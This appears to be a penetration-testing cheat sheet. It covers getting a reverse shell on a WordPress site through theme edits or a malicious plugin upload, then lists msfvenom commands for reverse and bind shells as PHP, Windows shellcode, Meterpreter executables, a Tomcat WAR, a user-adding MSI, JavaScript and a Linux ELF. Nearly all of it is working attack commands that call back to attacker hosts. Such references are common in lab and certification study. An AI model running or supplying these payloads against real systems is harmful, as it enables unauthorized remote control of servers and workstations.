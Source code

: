 	Once logged into the interface try to get reverse shell by either editing an existing theme, uploading a new theme, or uploading a new plugin.
	
	Editing a theme, paste in your own reverse shell code and browse to it, normally it's under http://IPADDRESS/wp-content/themes/nameoftheme/page.php
	
	If uploading as a plugin, make sure the shell.php file has the appropriate plugin comments or it will "fail" when uploading. Comments should look like this:
		
		/*
		    Plugin Name: WordPress Shell
		    Plugin URI: https://hackerman.com
		    Description: blah blah
		    Author: Hackerman
		    Version: 0.2
		    Author URI: https://hackerman.com
		    */
		
		Then browse to the plugin page, normally: http://IPADDRESS/wp-content/plugins/shell/shell.php
	
## Generating Payloads
	
PHP reverse shell payload

	msfvenom -p php/reverse_php LHOST=YOURIPADDRESS LPORT=443 > shell.php
	
Windows reverse shellcode for python script buffer overflow

	msfvenom -p windows/shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f c -e x86/alpha_mixed -b "\x00\x04\xcd\x77\x3f"
	
Windows bind shellcode for python script buffer overflow

	msfvenom -p windows/shell_bind_tcp LPORT=444 -f c -e x86/shikata_ga_nai -b  "\x00\x04\xcd\x77\x3f"

Meterpreter exe with reverse shell

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURIPADDRESS LPORT=4444 -f exe > meterpreter.exe
		
	64-bit
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.12.120 LPORT=4444 -f exe > met64.exe
	
WAR file for Apache Tomcat. 

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f war > shell.war
	
	to find malicious js file extract shell.war then browse to js file in browser
	jar -xvf shell.war
	
Windows MSI

	msfvenom -f msi-nouac -p windows/adduser USER=hackerman PASS=password -o add_user.msi
		
Javascript

	msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -f js_le
	
Linux elf binary

	msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.121 LPORT=443 -b "\x00" -f elf -o filename

